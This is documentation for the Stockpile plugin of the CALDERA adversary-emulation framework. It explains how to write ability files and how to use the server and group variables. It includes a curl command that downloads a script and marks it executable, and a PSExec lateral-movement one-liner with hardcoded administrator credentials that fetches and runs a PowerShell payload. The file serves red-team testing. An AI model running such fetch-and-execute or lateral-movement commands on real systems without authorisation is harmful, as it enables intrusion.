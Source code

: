 # CALDERA plugin: Stockpile

This plugin contains:

* A collection of abilities
* Pre-built adversary profiles
* Payloads associated to abilities
* A basic planner 

## Abilities

You can quickly add your own abilities and adversaries to the stockpile, both of which are reloaded every time
the core server reboots. Stockpile abilities are located in the abilities/ directory.

To add new ones, add a .yml file in the abilities directory, named after a unique ID (UUID-4 is our standard). 
This file should include an ID, name, description, ATT&CK tactic and command.

Below is an example ability. Read this carefully, it will be referenced later on.
```
- id: e9bcdf0d-be08-4aec-bf1e-e73655403d55
  name: Download WIFI tools
  description: Download a set of commands for manipulating WIFI
  tactic: discovery
  technique:
    attack_id: T1016
    name: System Network Configuration Discovery
  executors:
    bash:
      command: |
        curl -sk -X POST -H 'file:wifi.sh' #{server}/file/download > /tmp/wifi.sh &&
        chmod +x /tmp/wifi.sh
      cleanup:
        rm /tmp/wifi.sh
```

### Ability variables

As you write abilities, note that there are two global variables available, server and group, which 
can be used inside an ability command.

A variable is referenced with the syntax #{variable}.

* Server / #{server}: The location of CALDERA. Because each agent may have a different reference point
for where CALDERA is (IP, FQDN, etc), if an ability wants to reference CALDERA it should use #{server}. 
* Group / #{group}: The group used in the active operation.

In the ability example above, note the usage of the #{server} variable.

The group variable is a bit more advanced. This is useful primarily for lateral movement abilities where
the agent may move itself to a new host. A snippet of what this may look like (for PSExec) would be
```
psexec \\127.0.0.1 -u administrator -p password123 Powershell.exe iex (irm -Method Post -Headers @{'file'='54ndc47.ps1'}  #{server}/file/render?group=#{group})
```

### Download files from CALDERA to an agent

In the ability example, note the command downloading the wifi.sh file from CALDERA. It does this by sending a
POST request to the API endpoint /file/download, including the requested filename as a header.

The /file/download endpoint will look inside the payloads directory.

### Cleanup

Abilities can optionally include a cleanup block, which will execute automatically at the end of an operation. The
cleanup should be used in instances you want to reverse a mutable action, such as stopping a started process. In
the ability example above, note how the cleanup block is written. Cleanup actions will occur in reverse order
of the abilities that ran.

## Adversaries

New adversaries can be added to the adversaries.yml file.

## Planners

A basic planner, called sequential, runs all abilities on an adversary against all hosts in a group

